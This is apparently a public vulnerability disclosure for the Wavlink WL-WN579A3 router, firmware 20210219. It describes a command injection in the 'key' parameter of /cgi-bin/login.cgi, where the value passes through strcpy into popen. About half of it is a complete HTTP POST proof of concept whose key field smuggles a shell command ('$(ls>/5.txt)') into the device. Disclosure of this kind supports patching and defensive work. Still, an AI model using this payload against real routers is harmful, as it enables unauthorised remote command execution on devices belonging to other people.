



# Wavlink WN579A3 login
### Overview
vendor: Wavlink

product: WL-WN579A3

version: 20210219

type: Command Injection
### Vulnerability Description
A vulnerability has been found in Wavlink WL-WN579A3 20210219. This vulnerability can be triggered through the route /cgi-bin/login.cgi. The manipulation of the argument key leads to command injection. The attack is possible to be carried out remotely. The exploit has been disclosed to the public and may be used.
### Vulnerability Details
In the sub_401270 function, the value of the key parameter is obtained via a post request. Then, the value of the key parameter is passed to the v41 variable via the strcpy function, which in turn is passed to the popen function.







### POC
```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1158158187
Connection: keep-alive

page=login&key='$(ls>/5.txt)'
```